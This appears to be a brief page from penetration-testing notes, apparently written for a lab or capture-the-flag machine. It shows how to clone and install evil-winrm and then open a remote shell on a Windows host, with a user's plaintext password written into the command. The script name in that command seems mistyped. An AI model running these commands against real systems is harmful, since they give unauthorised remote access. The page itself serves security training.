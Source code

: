 ```yaml
---
description: Getting a shell from a Windows machine.
---
```


# evil-winrm

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

```text
git clone https://github.com/Hackplayers/evil-winrm
```

```text
cd evil-winrm

for i in $(cat Gemfile | tail -4 | cut -d ' ' -f 2 | tr -d "'"); do gem install $i; done; echo -e "\n\n\nDONE"
```

With the right credentials, run the following to get a shell\(**putting password inside quotes because of special characters**\):

```text
ruby evil-rm.rb -u chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.10.10.149
```

Full output:

![evil-winrm shell](.gitbook/assets/evilwinrm.png)



